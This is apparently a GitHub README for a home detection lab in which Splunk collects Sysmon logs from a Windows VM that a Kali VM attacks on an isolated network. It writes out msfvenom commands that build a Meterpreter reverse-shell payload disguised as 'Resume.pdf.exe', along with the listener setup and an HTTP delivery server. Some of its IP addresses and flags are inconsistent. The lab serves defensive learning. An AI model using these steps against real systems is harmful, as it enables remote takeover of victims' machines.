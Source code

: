 # detection-lab

Objective

The detection-lab project aimed to establish a environment for simulating and detecting cyber attacks. The main focus was to ingest and analyze logs within a Splunk. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies.

Skills Learned

- Understanding of SIEM and practical application.
- Analyzing network logs.
- Ability to generate and recognize attack signatures.
- Knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.

Tools Used

- Splunk for log ingestion and analysis.
- Splunk Universal Forwarder and Sysmon for log collecting/forwarding
- Kali Linux/Metasploit to create realistic network traffic and attack scenarios.

Network Diagram

![detection-lab](https://github.com/user-attachments/assets/df197dc4-81d7-48bd-8549-f5e0e13e41ce)

Steps

First, we need to understand the network connections in the virtual environment. The network we use when testing tools and using sandbox will be different. When analyzing malware, we should not have access to the Internet.

- Testing Tools     ---> NAT, NAT Network, Bridged
- Analyzing Malware ---> Host-Only, Internal Network/LAN Segment, Not Attached

In this lab, since we are going to create malware with Kali Linux and attack Windows Machine, the lab environment should not be connected to the internet. 

1-Installation and Setup of Virtual Machines 

- Kali Linux (attacker), Windows 10 (victim) and Ubuntu 22.04 (Splunk) were installed on VirtuelBox as virtual machines.
- Splunk Enterprise was installed on the Ubuntu machine to view logs.
- Universal Forwarder and Sysmon were installed on Windows 10 machine to send logs to Splunk.
- After selecting 'Internal Network' as network, fixed IP address was selected on each virtual machine. After all that, we saw that the virtual machines were reachable with the ‘ping’ command.

2-Attack Scenario 

- First I did a port scan with 'nmap' and saw that RDP port 3389 was open. nmap –A 
    - 192.168.10.100 -Pn 

- Secondly, I created malware with the 'msfvenom' payload. Here I chose the 'meterpreter/reverse_tcp' payload. 
    - msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.250 lport=4444 -f ece -o Resume.pdf.exe 

- With this malware we will obtain a 'reverse shell' and create a connection to our own machine. After logging into the msfconsole where I will execute the attack, I entered the values for the payload we selected and started the attack.
    - use exploit/multi/handler 
    - options 		#to see what we can configure 
    - set payload windows/x64/meterpreter/reverse_tcp 
    - set lhost 192.168.2.250 
    - set lport 4444 		#this is already given 
    - exploit 

- After that, we wait for the victim machine to run the malware. For this we will create an HTTP Server on the Kali Linux machine so that the victim machine can download the malware from there. 
    - python3 -m http.server 9999 		#make sure to run it in the directory where the malware is located 

3-Exploitation 
 
- First we need to deactivate Windows Security on the Windows (victim) machine. Then I connected to the 192.168.0.250:9999 server from the web browser and downloaded the malware file 'Resume.pdf.exe' and ran it. When I looked at the network connections from the cmd console, I saw that there was a TCP connection from 192.168.10.100 to 192.168.10.250. 
    - netstat -anob 

- After that, we can now connect to the Windows machine with the 'shell' command on the Kali Linux machine and enter the commands we want. 

4-Monitoring with Splunk 

- Since I have installed sysmon on the Windows (victim) machine and configured it correctly to send logs to Splunk, I can deep dive into logs. 

Note: Sysmon logs are not fully parsed by Splunk so don't forget to install Splunk Add-on for Sysmon. 
